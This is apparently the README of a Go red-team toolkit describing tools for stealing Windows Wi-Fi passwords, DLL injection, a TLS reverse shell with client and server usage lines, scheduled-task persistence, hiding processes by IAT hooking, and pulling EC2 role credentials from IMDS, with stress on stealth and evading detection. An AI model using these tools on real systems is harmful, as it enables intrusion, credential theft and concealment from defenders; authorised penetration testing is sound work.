 # Mal(icous)Go

## Disclaimer

Should only be used for systems that you have explicit permission to target, I take no responsibility for actions performed using any code from this repository.

Use at your own risk! 

## wifi pwds

Retrieve WLAN passwords from Windows. Uses native calls in Win32 API rather than executing `netsh wlan ...` as a command, this approach is more stealthy!

## inject

Injects a DLL into a remote process uses the classic on disk / `LoadLibrary` approach so should be used primarily for testing as it is not opsec safe.

Usage:

~~~
inject_x64.exe <dll_path> <pid>
~~~

## rshell

Simple reverse shell implementation client supports comms over TLS using the `tlsserver.go` server code.

### client

_Certificate is embedded into the compiled binary, update to a newly created cert._

~~~
client -tls -port 4444 <host>
~~~

### server

~~~
tlsserver -port 4444 <cert> <key>
~~~

## proxy

Simple TCP proxy

~~~
proxy <port> <host:port>
~~~

## persistence

A PoC to test adding a scheduled task into windows via COM/OLE rather than the noisey approach of using `schtasks.exe`. Please adjust to your needs!

## hideproc

Uses IAT hooking to hook into the low level `NtQuerySystemInformation` function import from `ntdll.dll` and hide processes based on an image name. Also includes a test executable to test against. Simply inject the DLL into the process you want to hide processes from.

Also demonstrates being able to read the PE including the IAT entries in-memory.

Code could be adjusted to perform other tasks.

# imdsdump

Find yourself on an EC2 instance with an assigned role?! This will use the IMDS to retrieve the temporary creds. Useful if the EC2 host is locked down making it tricky to call the service using other methods.

Compiles to an exe however the code could be changed and compiled as a DLL to be used in-memory to be more stealty or when app blocking is in place.